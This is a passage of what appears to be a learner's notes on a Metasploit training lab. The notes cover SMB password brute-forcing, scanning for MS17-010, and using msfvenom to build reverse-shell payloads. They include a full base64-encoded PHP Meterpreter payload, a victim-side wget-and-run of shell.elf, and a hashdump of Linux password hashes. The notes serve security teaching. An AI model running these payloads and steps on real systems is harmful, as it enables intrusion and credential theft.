   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
PASS_FILE => /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.214.253:445     - 10.10.214.253:445 - Starting SMB login bruteforce
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:95',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:98',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:2003',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:2008',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:111111',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:123456',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:12345678',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:1qaz2wsx',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abc',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abc123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:abcd123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:account',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:admin',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:adminadmin',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:administator',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:admins',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:air',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:alpine',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2013',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2013',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2014',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2014',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2015',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2015',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2016',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2016',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:Autumn2017',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:autumn2017',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:bankbank',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:baseball',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:basketball',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:bird',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:burp',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:change',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:changelater',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:changeme',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company!',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company1',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company1!',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:company123',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex1',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex2',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complex3',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:complexpassword',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:database',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:default',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:devdev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:devdevdev',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dirt',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:dragon',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:earth',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:fire',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:football',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:goat',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:goat',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:god',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:guessme',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:hugs',
[-] 10.10.214.253:445     - 10.10.214.253:445 - Failed: '.\penny:letmein',
[+] 10.10.214.253:445     - 10.10.214.253:445 - Success: '.\penny:leo1234'
[*] 10.10.214.253:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

   

### METASPLOIT DATABASE 

Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.

```
root@kali:~# systemctl start postgresql
root@kali:~# msfdb init
[i] Database already started
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activerecord-4.2.11.3/lib/active_record/connection_adapters/abstract_adapter.rb:84: warning: deprecated Object#=~ is called on Integer; it always returns nil

```
You can now launch msfconsole and check the database status using the db_status command.

```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 >
```
The database feature will allow you to create workspaces to isolate different projects. When first launched, you should be in the default workspace. You can list available workspaces using the workspace command. The database feature will allow you to create workspaces to isolate different projects. When first launched, you should be in the default workspace. You can list available workspaces using the `workspace` command. 
```
msf6 > workspace
* default
msf6 >

msf6 > workspace
* default
msf6 >
msf6 > workspace -a tryhackme
[*] Added workspace: tryhackme
[*] Workspace: tryhackme
msf6 > workspace -h
Usage:
    workspace          List workspaces
    workspace [name]   Switch workspace

OPTIONS:

    -a, --add <name>          Add a workspace.
    -d, --delete <name>       Delete a workspace.
    -D, --delete-all          Delete all workspaces.
    -h, --help                Help banner.
    -l, --list                List workspaces.
    -r, --rename <old> <new>  Rename a workspace.
    -S, --search <name>       Search for a workspace.
    -v, --list-verbose        List workspaces verbosely.


```

If you run a Nmap scan using the db_nmap shown below, all results will be saved to the database. 
```
msf6 > db_nmap -sV -T4 --min-rate 8888 10.10.214.253 -vv
[*] Nmap: Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-21 13:24 UTC
[*] Nmap: NSE: Loaded 45 scripts for scanning.
...

# YOU CAN NOW USE `HOSTS` and `SERVICES`
msf6 > hosts                                                                                                   
                                                                                                               
Hosts                                                                                                          
=====                                                                                                          
                                                                                                               
address        mac                name                     os_name  os_flavor  os_sp  purpose  info  comments  
-------        ---                ----                     -------  ---------  -----  -------  ----  --------  
10.10.214.253  02:33:79:1d:b6:3d  ip-10-10-214-253.eu-wes  Unknown                    device                   
                                  t-1.compute.internal                                                         
                                                                                                               
msf6 > services                                                                                                
Services                                                                                                       
========                                                                                                       
                                                                                                               
host           port  proto  name         state  info                                                           
----           ----  -----  ----         -----  ----                                                           
10.10.214.253  21    tcp    ftp          open   ProFTPD 1.3.5e                                                 
10.10.214.253  22    tcp    ssh          open   OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0     
10.10.214.253  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: ACME IT SUPPORT                
10.10.214.253  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: ACME IT SUPPORT                
10.10.214.253  8000  tcp    http         open   WebFS httpd 1.21         
```

**Example Workflow**

- We will use the vulnerability scanning module that finds potential MS17-010 vulnerabilities with the use auxiliary/scanner/smb/smb_ms17_010 command.
- We set the RHOSTS value using hosts -R.
- We have typed show options to check if all values were assigned correctly. (In this example, 10.10.138.32 is the IP address we have scanned earlier using the db_nmap command)
- Once all parameters are set, we launch the exploit using the run or exploit command. 

```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > hosts -R

Hosts
=====

address       mac                name                                        os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----                                        -------  ---------  -----  -------  ----  --------
10.10.12.229  02:ce:59:27:c8:e3  ip-10-10-12-229.eu-west-1.compute.internal  Unknown                    device

RHOSTS => 10.10.12.229

msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

Name         Current Setting                                                 Required  Description
----         ---------------                                                 --------  -----------
CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
RHOSTS       10.10.12.229                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT        445                                                             yes       The SMB service port (TCP)
SMBDomain    .                                                               no        The Windows domain to use for authentication
SMBPass                                                                      no        The password for the specified username
SMBUser                                                                      no        The username to authenticate as
THREADS      1                                                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

If there is more than one host saved to the database, all IP addresses will be used when the hosts -R command is used.
In a typical penetration testing engagement, we could have the following scenario:

Finding available hosts using the db_nmap command
Scanning these for further vulnerabilities or open ports (using a port scanning module)

The services command used with the -S parameter will allow you to search for specific services in the environment.

```
msf6 > services -S netbios
Services
========

host          port  proto  name         state  info
----          ----  -----  ----         -----  ----
10.10.12.229  139   tcp    netbios-ssn  open   Microsoft Windows netbios-ssn

msf6 >
```

You may want to look for low-hanging fruits such as:
- HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
- FTP: Could allow anonymous login and provide access to interesting files. 
- SMB: Could be vulnerable to SMB exploits like MS17-010
- SSH: Could have default or easy to guess credentials
- RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. 

### VULNERABILITY SCANNING 

> return to this section for notes 


### EXPLOITATION 
In this section we're going to have a chance to try the eternal blue vulnerability 

run nmap first 
```
PORT      STATE    SERVICE      REASON          VERSION
135/tcp   open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open     netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open     tcpwrapped   syn-ack ttl 128
8107/tcp  filtered unknown      no-response
10580/tcp filtered unknown      no-response
30257/tcp filtered unknown      no-response
45628/tcp filtered unknown      no-response
47900/tcp filtered unknown      no-response
49152/tcp open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open     msrpc        syn-ack ttl 128 Microsoft Windows RPC
58420/tcp filtered unknown      no-response
59137/tcp filtered unknown      no-response
61916/tcp filtered unknown      no-response
MAC Address: 02:0A:AC:E1:AD:4F (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

sudo nmap -sS -sV -p- -T4 --min-rate 8888 10.10.68.133 -vv -sC
Not shown: 59181 closed tcp ports (reset), 6345 filtered tcp ports (no-response)
PORT      STATE SERVICE        REASON          VERSION
135/tcp   open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn    syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   syn-ack ttl 128 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server? syn-ack ttl 128
| rdp-ntlm-info:
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2022-11-22T13:28:09+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Issuer: commonName=Jon-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-11-21T13:18:28
| Not valid after:  2023-05-23T13:18:28
| MD5:   34d2c3151d42e93c5ffd1d1f0fbe7535
| SHA-1: 873a2ef0e076e45427759b628507c7705f33e362
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQa59ff5n42axPJDwNL9CkPjANBgkqhkiG9w0BAQUFADAR
| MQ8wDQYDVQQDEwZKb24tUEMwHhcNMjIxMTIxMTMxODI4WhcNMjMwNTIzMTMxODI4
| WjARMQ8wDQYDVQQDEwZKb24tUEMwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQC2Zz3fTuvpH+9FePTozy3T+yoMEbcFGc990PBqOb4qZUlNaQ289VWaUzo3
| ChGG4LmoX0e/dMOkVWeVBZdndASLKA2CnTXAKbYZ9i+m0ujVpIQQMHbwr/BFTOgz
| aAfiR9CUJg8YVIJn8UzcKhpOMN2SGxdglBvr/ZAR6lgAnliy7ML6VOov6bZzOHVp
| DaX1rZYl+H7QXWguQTz0fxK7Do9oad+Vyiagnfs9X3Vv7WzUZxiJID5WfVCzgDl/
| 8RtSZ70WcX3TYdVOK27NnP6pitBXtLeWuY1/rL90TX3dCi/YWe1Z5osFKkaHdv7W
| mg6aKirqaEa1QGH9klelwzxpKGxZAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAcAai270smTRJH9vd
| ox+R2t41OCUBGIZfuKBGqf+sfprZCim1fvlXN7aZ33a0LNSH/1UDpeRf+xKy5IkM
| Te45S1jhFDI0eIZBIQ/dm7z4SBTRs44CEVnTU9aS4kMJCDLwgN6hdjqyqAEOYRq1
| utwoDEXAsby/jN+eHTPNMNWq1aSv5tHeDLSKkL6WrksqNw+uuf8Ti6L6EqpEkt5o
| jGArXHJC854KfBbyw4SGAY/EnXWeg1Mn+Pj9EEl/sfrDU5jD8kFlDbgHxPyUylTy
| 222CD5JRQA6QpFWRrG4uDjhxXjMSEKs951IgYxHp852MTemb3UmV7mgctkaIAfh0
| S0Ue+A==
|_-----END CERTIFICATE-----
|_ssl-date: 2022-11-22T13:28:14+00:00; +1s from scanner time.
49152/tcp open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc          syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:0A:AC:E1:AD:4F (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32054/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 32578/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 31087/udp): CLEAN (Timeout)
|   Check 4 (port 60043/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h12m00s, deviation: 2h40m59s, median: 0s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 020aace1ad4f (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   020aace1ad4f0000000000000000000000
|   0000000000000000000000000000000000
|_  0000000000000000000000000000
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-22T13:28:09
|_  start_date: 2022-11-22T13:18:23
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-22T07:28:09-06:00


```

next msfconsole. the target is running a windows. 
we could try to use the eternal blue vulnerability 


### MSFVENOM PAYLOAD
Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

```
msfvenom -l payloads

Framework Payloads (562 total) [--payload ]
...
```

**Output formats**

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The `msfvenom --list` formats command can be used to list supported output formats

**Encoders** 
Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw.

```
root@ip-10-10-186-44:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
eval(base64_decode(Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzEwLjEwLjE4Ni40NCc7ICRwb3J0ID0gNDQ0NDsgaWYgKCgkZiA9ICdzdHJlYW1fc29ja2V0X2NsaWVudCcpICYmIGlzX2NhbGxhYmxlKCRmKSkgeyAkcyA9ICRmKCJ0Y3A6Ly97JGlwfTp7JHBvcnR9Iik7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdmc29ja29wZW4nKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigkaXAsICRwb3J0KTsgJHNfdHlwZSA9ICdzdHJlYW0nOyB9IGlmICghJHMgJiYgKCRmID0gJ3NvY2tldF9jcmVhdGUnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZihBRl9JTkVULCBTT0NLX1NUUkVBTSwgU09MX1RDUCk7ICRyZXMgPSBAc29ja2V0X2Nvbm5lY3QoJHMsICRpcCwgJHBvcnQpOyBpZiAoISRyZXMpIHsgZGllKCk7IH0gJHNfdHlwZSA9ICdzb2NrZXQnOyB9IGlmICghJHNfdHlwZSkgeyBkaWUoJ25vIHNvY2tldCBmdW5jcycpOyB9IGlmICghJHMpIHsgZGllKCdubyBzb2NrZXQnKTsgfSBzd2l0Y2ggKCRzX3R5cGUpIHsgY2FzZSAnc3RyZWFtJzogJGxlbiA9IGZyZWFkKCRzLCA0KTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRsZW4gPSBzb2NrZXRfcmVhZCgkcywgNCk7IGJyZWFrOyB9IGlmICghJGxlbikgeyBkaWUoKTsgfSAkYSA9IHVucGFjaygi.TmxlbiIsICRsZW4pOyAkbGVuID0gJGFbJ2xlbiddOyAkYiA9ICcnOyB3aGlsZSAoc3RybGVuKCRiKSA8ICRsZW4pIHsgc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRiIC49IGZyZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgY2FzZSAnc29ja2V0JzogJGIgLj0gc29ja2V0X3JlYWQoJHMsICRsZW4tc3RybGVuKCRiKSk7IGJyZWFrOyB9IH0gJEdMT0JBTFNbJ21zZ3NvY2snXSA9ICRzOyAkR0xPQkFMU1snbXNnc29ja190eXBlJ10gPSAkc190eXBlOyBpZiAoZXh0ZW5zaW9uX2xvYWRlZCgnc3Vob3NpbicpICYmIGluaV9nZXQoJ3N1aG9zaW4uZXhlY3V0b3IuZGlzYWJsZV9ldmFsJykpIHsgJHN1aG9zaW5fYnlwYXNzPWNyZWF0ZV9mdW5jdGlvbignJywgJGIpOyAkc3Vob3Npbl9ieXBhc3MoKTsgfSBlbHNlIHsgZXZhbCgkYik7IH0gZGllKCk7));
```


Challenge
```
Listing all possible payloads
msfvenom --list payloads > list.txt 

Common Choices
---
generic/shell_reverse_tcp
linux/aarch64/shell_reverse_tcp                                    Connect back to attacker and spawn a command shell
linux/armle/shell_reverse_tcp                                      Connect back to attacker and spawn a command shell 
linux/x86/shell_reverse_tcp                                        Connect back to attacker and spawn a command shell
linux/x86/shell_reverse_tcp_ipv6                                   Connect back to attacker and spawn a command shell over IP
windows/shell_reverse_tcp                                          Connect back to attacker and spawn a command shell 
windows/x64/shell_reverse_tcp                                      Connect back to attacker and spawn a command shell (Windows x64)
apple_ios/aarch64/shell_reverse_tcp                                Connect back to attacker and spawn a command 
cmd/windows/powershell/shell_reverse_tcp                           Execute an x86 payload from a command via PowerShell. Connect back to attacker and spawn a command
cmd/windows/powershell/x64/shell_reverse_tcp                       Execute an x64 payload from a command via PowerShell. Connect back to attacker and spawn a command shell (Windows x 
java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
linux/x86/meterpreter/reverse_tcp 


# FIRST run multi handler as listener 
msfconsole
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp # THIS is the default

# But we'll use this instead 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.245.243
LHOST => 10.10.245.243
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.245.243:4444 

# Start another terminal to generate a msfvenom payload 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.245.243 LPORT=4444 -f elf > shell.elf
```

On the victim machine
```
root@ip-10-10-208-237:/# wget 10.10.245.243:8888/shell.elf
--2022-11-23 01:14:36--  http://10.10.245.243:8888/shell.elf
Connecting to 10.10.245.243:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: ‘shell.elf’

shell.elf              100%[=========================>]     207  --.-KB/s    in 0s

2022-11-23 01:14:36 (12.6 MB/s) - ‘shell.elf’ saved [207/207]
root@ip-10-10-208-237:/# chmod +x shell.elf
root@ip-10-10-208-237:/# ./shell.elf  # enter
```

Going back to the attacker machine
```
...
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.245.243:4444 
# Returnin here
[*] Sending stage (1017704 bytes) to 10.10.208.237
[*] Meterpreter session 1 opened (10.10.245.243:4444 -> 10.10.208.237:48882) at 2022-11-23 01:16:35 +0000
# Meterpreter just entered the system 
meterpreter > sysinfo
Computer     : ip-10-10-208-237.eu-west-1.compute.internal
OS           : Ubuntu 18.04 (Linux 5.4.0-1029-aws)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >

# NOW we have to rerun it again and use -z option, so it would be saved in the background session 
# QUESTIONS how to exit meterpreter without removing session ? 
# for the mean time let's continue in the task 
# The goal is to get the hashpasswords of the users.
# simple idea would just get /etc/passwd but using msfconsole feels good too


msfconsole
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > info

       Name: Linux Gather Dump Password Hashes for Linux Systems
     Module: post/linux/gather/hashdump
   Platform: Linux
       Arch: 
       Rank: Normal

Provided by:
  Carlos Perez <carlos_perez@darkoperator.com>

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION                   yes       The session to run this module on

Description:
  Post Module to dump the password hashes for all users on a Linux 
  System

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set session 2
session => 2
msf6 post(linux/gather/hashdump) > run

[+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:/bin/sh
[+] Unshadowed Password File: /root/.msf4/loot/20221123012513_default_10.10.208.237_linux.hashes_866296.txt
[*] Post module execution completed


```


### SUMMARY 
You should now have a better understanding of how Metasploit can help you identify potential vulnerabilities on target systems and exploit these vulnerabilities.


You have also seen how the database feature can help you with penetration testing engagements where you have multiple potential targets.
Finally, you should have gained some experience with msfvenom and the creation of stand-alone Meterpreter payloads. This is especially helpful in situations where you can upload a file to the target system or have the ability to download files to the target system. Meterpreter is a powerful tool that offers a lot of easy to use features during the post-exploitation phase. 


